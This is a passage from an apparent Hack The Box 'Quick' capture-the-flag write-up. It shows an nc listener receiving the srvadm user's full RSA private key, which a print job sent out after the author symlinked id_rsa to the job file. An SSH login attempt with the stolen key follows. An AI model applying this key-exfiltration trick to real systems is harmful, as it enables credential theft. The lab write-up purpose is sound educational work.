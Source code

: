 ```text
zweilos@kali:~/htb/quick$ nc -lvnp 9100
listening on [any] 9100 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 36404
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
```

After a lot of troubleshooting I arrived at the script above and was able to retrieve the SSH key. I ended up having to remove the print job file `job.php` made, copy its filename to a variable, then symlink the `id_rsa` file to a file with the same name as the print job file. This all had to happen before the print job was sent to my waiting nc listener.

## Enumeration as `srvadm`

```text
zweilos@kali:~/htb/quick$ ssh -i srvadm.id_rsa srvadm@quick.htb
load pubkey "srvadm.id_rsa": invalid format
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'srvadm.id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "srvadm.id_rsa": bad permissions
srvadm@quick.htb's password:
```
